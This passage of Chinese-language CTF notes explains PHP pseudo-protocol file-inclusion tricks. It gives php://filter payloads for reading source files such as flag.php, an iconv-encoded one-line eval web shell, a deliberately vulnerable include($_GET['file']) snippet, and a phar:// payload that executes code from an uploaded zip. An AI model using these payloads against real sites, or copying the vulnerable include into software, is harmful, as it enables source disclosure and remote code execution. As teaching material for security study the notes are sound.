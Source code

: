示例：`php://filter/read=convert.base64-encode/resource=flag.php`

表示读取本地文件 flag.php，并进行 base64 编码。

在 CTF 中常用于读取 PHP 的源码。

```
php://filter 读取服务器中文件，并且在读的过程中会对数据进行编码

php://filter/read=convert.base64-encode/resource=要读的文件名

php://filter/convert.base64-encode/resource=要读的文件名

php://filter/string.rot13/resource=要读的文件名

file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
iconv.从这个编码.转换到这个编码
```

>iconv ( string $in_charset , string $out_charset , string $str ) : 
>string将字符串 str 从 in_charset 转换编码到 out_charset。
>in_charset：输入的字符集。
>out_charset：输出的字符集。
>
>```php
><?php
>echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[hack]);?>');
>?>
>//?<hp pe@av(l_$OPTSh[ca]k;)>?
>```

####  phar://

- 作用：属于 PHP 伪协议，phar（PHP Archive) 是 PHP 里类似于 JAR 的一种打包文件。
- 条件：
  - PHP >= 5.3.0

phar:// 的利用场景示例：

```php
<?php
  $files = $_GET['file'];
  include($files);
?>
```

对于这样的例子，先上传一个 zip 压缩包，里面是一个 txt 文件，内容是：`<?php phpinfo(); ?>`，在知道绝对路径（/www/upload/test.zip）之后，可以利用 phar:// 来执行这段代码，payload: `phar:///www/upload/test.zip/test.txt`

####  zip://

- 作用：属于 PHP 伪协议，用于访问 zip 压缩流

格式：`zip://[压缩文件绝对路径]#[压缩文件内的路径以及文件名]`

## SSRF和Gopher
